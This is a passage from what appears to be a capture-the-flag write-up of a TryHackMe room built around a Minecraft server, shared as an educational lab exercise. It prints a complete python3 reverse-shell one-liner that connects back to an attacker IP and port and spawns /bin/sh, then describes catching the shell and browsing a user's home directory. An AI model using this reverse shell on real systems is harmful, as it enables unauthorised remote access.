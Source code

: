 ![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/CyberCrafted/Images/Untitled%2019.png)

Now we know that the system has python3 installed, so now we can use the following reverse shell.

```python
/usr/bin/python3.6 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.44.71",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Now we can set up a listener on our system to receive the call from the Minecraft server.

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/CyberCrafted/Images/Untitled%2020.png)

Now we can execute the command and we will receive the connection! 

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/CyberCrafted/Images/Untitled%2021.png)

Now let’s try to find something interesting. 

So I decided to go to `/home` directory and then cd’ed into the `xxultimatecreeperxx` directory, which was empty but after running the command `ls -la` it revealed its secrets. 

![Untitled](https://github.com/3J0SKA/THM-WriteUps/blob/main/CyberCrafted/Images/Untitled%2022.png)

